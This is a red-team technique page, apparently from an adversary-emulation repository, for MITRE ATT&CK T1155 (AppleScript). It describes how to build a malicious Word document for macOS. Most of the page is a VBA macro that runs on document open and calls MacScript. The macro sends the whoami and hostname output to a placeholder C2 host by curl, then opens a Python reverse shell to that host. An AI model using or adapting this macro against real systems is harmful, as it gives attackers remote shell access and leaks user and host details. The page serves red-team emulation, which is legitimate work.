 # AppleScript

---
* **ID**: T1155
* **Source**: <https://attack.mitre.org/techniques/T1155/>
---

# Details

* Create a Word document, see [Template Injection](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1221/T1221.md)
* Create a macro in VB with the codes below:

```
Sub Auto_Open()
OpenMe
End Sub

Sub AutoOpen()
OpenMe
End Sub

Sub AutoNew()
OpenMe
End Sub

Sub Document_Open()
OpenMe
End Sub

Public Function OpenMe() As Variant
On Error Resume Next               
Dim cmd As String
cmd = "do shell script ""curl http://<ip_of_C2>/`whoami`/`hostname` & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""<ip_of_C2>\"",<port_of_C2>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\""/bin/sh\"",\""-i\""]);' & """
MacScript (cmd)
End Function
```

# References

* <https://securingtomorrow.mcafee.com/other-blogs/mcafee-labs/macro-malware-targets-macs/>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1221/T1221.md>
